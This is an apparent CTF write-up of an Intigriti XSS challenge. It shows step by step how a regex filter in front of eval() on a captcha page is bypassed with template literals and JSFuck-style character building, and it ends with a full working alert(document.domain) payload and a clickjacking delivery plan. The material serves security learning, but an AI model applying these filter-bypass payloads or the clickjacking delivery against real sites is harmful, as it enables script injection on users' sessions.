

# Curious case of esoteric functionality in JavaScript #

## Intro #
Intigriti hosts monthly(?) a Cross-Site Scripting (XSS) challenge for hackers, that are curious and want to do a CTF like challenges related to javascript. These challenges range from medium to extremely hard. This month or to be more precise last months challenge was crafted by GrumpinouT as part of bachelor thesis, which intrigued my curiosity. I'd very much like to read it!

Anyways I've recently felt the need to improve my Cross-Site Scripting skills and I've found that intigriti's challenges are hard and interesting and althought I've not managed to solve few of them due to the lack of time I have to spend on them, I've always managed to gain more insight on JavaScript and different Cross-Site Scripting (XSS) vectors. 

Enough on my blabbering and let's get into the challenge and how I managed to solve it.

## Challenge rules # 
So the challenge page states that the following condition must be met in order **win**:

1. Should work on the latest version of Firefox or Chrome
2. Should leverage a cross site scripting vulnerability on the challenge domain (javascript should execute on challenge-0521.intigriti.io)
3. Shouldn't be self-XSS or related to MiTM attacks

So rule #1 states that must be either latest FF or Chrome, which seems easy enough because we don't need to focus on both browsers. 

Rule #2 is the most important one. It states that the vulnerability should be exploited on the **challenge domain**, this is interesting because sometimes we need to leverega the vulnerability on the front page (index page)

Rule #3  Shouldn't be self-XSS or related to MiTM attacks. This is a bit interesting also because my proof of concept is technically a self-XSS, but using in conjunction with other vulnerability it wouldn't be anymore. 

## Challenge page #

Looking at the web page we can see that there is captcha challenge saying: **Solve the math problem to prove that you're not a robot:** with an input field and two buttons, one to submit and one to reset. 

Further inspecting the page we can see that this captcha is actually an iframe from a secondary page on the domain: 

#### IMG 1


Accessing the **/captcha.php** page and viewing its source code: 

#### IMG 2


So the page has a simple form and some javascript to handle the input, the most notable function is the `function calc()`, because it contains the `eval()` function and this tells us, that this is probably where we want our payload to end up. 

## Dissecting the page #
The `calc()` functions first line takes the `innerText`of `a` and `b` and the `value`of `c` and inserts concatenates them in the `operation` variable. The `a` and `b` are automatically generated by the application and they don't seem to be user controlled. The `c.value` is the value of the input field where we can insert some data, so this is the most probable place where we can insert our payload and get it evaluated by the **DOM**.

Further inspection of the `calc()` function we can quickly notice that it has a comment besides a regex filter, which states that the letter `e` is allowed. Looking into the regex `if (!operation.match(/[a-df-z<>()!\\='"]/gi))` we can notice, that it filters the characters all the alphabets, except `e` and the following special characters `<>()!\\='"` and if none of 

The regex is interesting because it does not filter out the following characters: 
```[]`${}1234567890+-;```

This might be something we can use, but it was a bit unclear at the time. 

Then finally if we pass the regex filtering the `operation` variable is passed straight into the `eval()` function  and `alert` dialog with the text `"🚫🤖 Congratulations, you're not a robot!"`if the statements is true and `🤖 Sorry to break the news to you, but you are a robot!` if the statement was false, . Curious. 

Also because of the comment in the code, which states that the `e` letter is allowed and looking into the source code there's a HTML `progress`element with the `id=e`, which can possible aid us in our exploit development. 

## Testing functionalities (small steps) #
Using the application as intended would have us solve a simple mathematical problem, where we have to deduct the given value in variable `a` from the result variable `d` and the sum would be the answer to the question. 
#### IMG 3 


Checking if we can modify the fields with a `GET` request by adding the parameters `b` and `c` to the request: 

#### IMG 4


Great so our `GET` request with the parameter values was added to the page. This might be usable for crafting the final exploit. 

## Theory crafting

So we now know some basic functionalities of the application and how it filters user based input. Going back to the regex filtering and seeing what characters we can use: 
```[]`${}1234567890+-;```

First thing comes to mind if we could execute `alert`as a template literal, because the backtick ``` ` ``` is not filtered. Template literals makes it possible to execute expressions as follows ``` `string text ${expression} string text` ```, which needs characters that we are able to use without hitting the regex filter, noice! Executing an `alert` as a template literal can be done  as follows: ``` alert`1` ```. For more information on template literals check the Supporting material [0].


Now because we are able to use the following characters ```[]1234567890+-```we might be able to achieve esoteric functionality like **Brainfuck** or **JSFuck**. The github repository **wtfjs** (check the supporting materials [1]) explains it quite well: 

>(![] + [])[+[]] +
  (![] + [])[+!+[]] +
  ([![]] + [][[]])[+!+[] + [+[]]] +
  (![] + [])[!+[] + !+[]];
// -> 'fail'
>
>By breaking that mass of symbols into pieces, we notice that the following pattern occurs often:
>
>![] + []; // -> 'false'
![]; // -> false
>
>So we try adding [] to false. But due to a number of internal function calls (binary + Operator -> ToPrimitive -> [[DefaultValue]]) we end up converting the right operand to a string:
>
>![] + [].toString(); // 'false'
>
>Thinking of a string as an array we can access its first character via [0]:
>
>"false"[0]; // -> 'f'

(https://github.com/denysdovhan/wtfjs#its-a-fail)

But there might be a problem, the above example uses the characters`!()`, which are filtered by the regex before passing it to the `eval()`. 

But this might be something we could use still and we try to if the character `!` is redundant in our case because we can access the progress bar with the id `e`. Let's explore this idea and fire up the developer console on the challenge **/captcha.php** -page:

#### IMG 5


So what's happening in the image above?

We access the `e`variable and insert it to list with `[e]`, after that we need to convert it to a string with the backticks ``` [e]+`` ```, this is a quite weird feature in JavaScript to be able to concatenate strings and objects together. 

Now we've managed to get a nice long string, but we still need to have the possibility to a single string at the time. We can achieve this by adding the string into a list ``` [[e]+``] ``` and slicing from there by selecting the first item in the list and the character we want ``` [[e]+``][0][0] ```. 

After all of that shenanigans we can start thinking of how we can craft an exploit to abuse the `eval()`.

## Crafting exploit

So we already have access to a quite nice range of characters but we are still missing some of them, and one of the most important one is `a`. Luckily we can get an `a` character from JavaScripts "Not a Number" or "NaN". 

#### IMG 6


Let's try to build with the characters we have an `alert`: 

```
<!-------- a --------><!-------- l --------><!-------- e --------><!-------- r --------><!-------- t -------->
[e+``, e-1+``][1][1]+[e+``, e-1+``][0][21]+[e+``, e-1+``][0][22]+[e+``, e-1+``][0][16]+[e+``, e-1+``][0][26]
```
Lets test it in the developer console and run it trough eval just in case:


Nice this seems that we can work with this. 
At this point I wasn't quite sure how I could execute arbitrary JavaScript or if I would even succeed in it. 
So I did a little bit more googling. After reading the following articles:

- https://techiavellian.com/constructing-an-xss-vector-using-no-letters
- https://portswigger.net/research/executing-non-alphanumeric-javascript-without-parenthesis

I came to the conclusion that I probably want my payload to looks something like the following: 
```
["sub"]["constructor"]`$${alert`1`}$````
```

Oh boy, I didn't know my payload was naively constructed at this point. 

So I took some steps back and tested only the following input in the developer console: 

```
["sub"]["constructor"]
--> // ƒ Array() { [native code] }
```

Ok it seems that it's evaluated at some level. So just to be sure this would work I inserted a breakpoint in the browser debugger on the  `if (!operation.match(/[a-df-z<>()!\\='"]/gi))` statement and submitted our esoteric payload and ran `eval(operation)` when the breakpoint was hit:

```
<!-- ["sub"]["constructor"] -->`
[[e+``, e-1+``][0][19]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][2]][[e+``, e-1+``][0][5]+[e+``, e-1+``][0][1]+[e+``, e-1+``, [][[]]+``][2][1]+[e+``, e-1+``][0][19]+[e+``, e-1+``][0][6]+[e+``, e-1+``][0][16]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][5]+[e+``, e-1+``][0][26]+[e+``, e-1+``][0][1]+[e+``, e-1+``][0][16]]

```


Nice! This was another win for us ! Now we have confirmed that we are on the right path. So re reading the the article by the great @Gareth Heyes I realized that my payload was all a bit short handed. 

The real payload I wanted was: 
```
["sub"]["constructor"]["constructor"]`$${alert(document.domain)}$```
```
Notice an issue in this payload? We are missing the ability to add parantheses `()`. This is where my previous mistake came into aid the ` ["sub"]["constructor"]` payload gave the ability to add parantheses as follows by running the in the dev console: 

```
Programming for humans: 
["sub"]["constructor"]+``

Results:
"function Array() { [native code] }"

Esoteric program: 
[``+[[e+``, e-1+``][0][19]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][2]][[e+``, e-1+``][0][5]+[e+``, e-1+``][0][1]+[e+``, e-1+``, [][[]]+``][2][1]+[e+``, e-1+``][0][19]+[e+``, e-1+``][0][6]+[e+``, e-1+``][0][16]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][5]+[e+``, e-1+``][0][26]+[e+``, e-1+``][0][1]+[e+``, e-1+``][0][16]]]

Results:
["function Array() { [native code] }"]
```
Now we missing only the character `d`, which was easy to achieve when carefully I read the relevant sections of the supporting material:

```
[[][[]]+``]

Results: 
["undefined"]
```
## Final payload ##
Constructing payload: 

```
<!-- ["sub"] -->
[[e+``, e-1+``][0][19]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][2]]

<!-- ["constructor"] -->
[[e+``, e-1+``][0][5]+[e+``, e-1+``][0][1]+[e+``, e-1+``, [][[]]+``][2][1]+[e+``, e-1+``][0][19]+[e+``, e-1+``][0][6]+[e+``, e-1+``][0][16]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][5]+[e+``, e-1+``][0][26]+[e+``, e-1+``][0][1]+[e+``, e-1+``][0][16]]


<!-------- a --------><!-------- l --------><!-------- e --------><!-------- r --------><!-------- t -------->
[e+``, e-1+``][1][1]+[e+``, e-1+``][0][21]+[e+``, e-1+``][0][22]+[e+``, e-1+``][0][16]+[e+``, e-1+``][0][26]

<!-- ( -->
[``+[[e+``, e-1+``][0][19]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][2]][[e+``, e-1+``][0][5]+[e+``, e-1+``][0][1]+[e+``, e-1+``, [][[]]+``][2][1]+[e+``, e-1+``][0][19]+[e+``, e-1+``][0][6]+[e+``, e-1+``][0][16]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][5]+[e+``, e-1+``][0][26]+[e+``, e-1+``][0][1]+[e+``, e-1+``][0][16]]][0][14]

<!-- document.domain -->
[[][[]]+``][0][2]+[e+``, e-1+``][0][1]+[e+``, e-1+``][0][5]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][23]+[e+``, e-1+``][0][22]+[e+``, e-1+``, [][[]]+``][2][1]+[e+``, e-1+``][0][6]+`.`+[[][[]]+``][0][2]+[e+``, e-1+``][0][1]+[e+``, e-1+``][0][23]+[e+``, e-1+``][1][1]+[[][[]]+``][0][5]+[e+``, e-1+``, [][[]]+``][2][1]

<!-- ) -->
[``+[[e+``, e-1+``][0][19]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][2]][[e+``, e-1+``][0][5]+[e+``, e-1+``][0][1]+[e+``, e-1+``, [][[]]+``][2][1]+[e+``, e-1+``][0][19]+[e+``, e-1+``][0][6]+[e+``, e-1+``][0][16]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][5]+[e+``, e-1+``][0][26]+[e+``, e-1+``][0][1]+[e+``, e-1+``][0][16]]][0][15]

```

The final payload: 

```
<!-- ["sub"]["constructor"]["constructor"]`$${alert(document.domain)}$``` -->

[[e+``, e-1+``][0][19]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][2]][[e+``, e-1+``][0][5]+[e+``, e-1+``][0][1]+[e+``, e-1+``, [][[]]+``][2][1]+[e+``, e-1+``][0][19]+[e+``, e-1+``][0][6]+[e+``, e-1+``][0][16]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][5]+[e+``, e-1+``][0][26]+[e+``, e-1+``][0][1]+[e+``, e-1+``][0][16]][[e+``, e-1+``][0][5]+[e+``, e-1+``][0][1]+[e+``, e-1+``, [][[]]+``][2][1]+[e+``, e-1+``][0][19]+[e+``, e-1+``][0][6]+[e+``, e-1+``][0][16]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][5]+[e+``, e-1+``][0][26]+[e+``, e-1+``][0][1]+[e+``, e-1+``][0][16]]`$${[e+``, e-1+``][1][1]+[e+``, e-1+``][0][21]+[e+``, e-1+``][0][22]+[e+``, e-1+``][0][16]+[e+``, e-1+``][0][26]+[``+[[e+``, e-1+``][0][19]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][2]][[e+``, e-1+``][0][5]+[e+``, e-1+``][0][1]+[e+``, e-1+``, [][[]]+``][2][1]+[e+``, e-1+``][0][19]+[e+``, e-1+``][0][6]+[e+``, e-1+``][0][16]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][5]+[e+``, e-1+``][0][26]+[e+``, e-1+``][0][1]+[e+``, e-1+``][0][16]]][0][14]+[[][[]]+``][0][2]+[e+``, e-1+``][0][1]+[e+``, e-1+``][0][5]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][23]+[e+``, e-1+``][0][22]+[e+``, e-1+``, [][[]]+``][2][1]+[e+``, e-1+``][0][6]+`.`+[[][[]]+``][0][2]+[e+``, e-1+``][0][1]+[e+``, e-1+``][0][23]+[e+``, e-1+``][1][1]+[[][[]]+``][0][5]+[e+``, e-1+``, [][[]]+``][2][1]+[``+[[e+``, e-1+``][0][19]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][2]][[e+``, e-1+``][0][5]+[e+``, e-1+``][0][1]+[e+``, e-1+``, [][[]]+``][2][1]+[e+``, e-1+``][0][19]+[e+``, e-1+``][0][6]+[e+``, e-1+``][0][16]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][5]+[e+``, e-1+``][0][26]+[e+``, e-1+``][0][1]+[e+``, e-1+``][0][16]]][0][15]}$```
```

## Final poc #

Now we can deliver the payload to victim in conjuction in a clickjacking vulnerability because the **/captcha.php** page is frameable by any domain and we can append arbitrary parameter input via the `GET` request. I used burps clickbandit to generate the final payload see attached HTML for final payload.


## Thoughts #
This was a fun challenge and I'm quite happy that I managed to solve it. I'd like to use this report as my write up and would like to get some feedback on it. 

Also i realize there is some optimization to my payload, but i was lazy and too scared that I will break something by modifying it. 

Thanks for the challenge! Good night!

## Supporting Material #
https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals [0]
https://github.com/denysdovhan/wtfjs#its-a-fail [1]
https://techiavellian.com/constructing-an-xss-vector-using-no-letters[2]
https://portswigger.net/research/executing-non-alphanumeric-javascript-without-parenthesis [3]
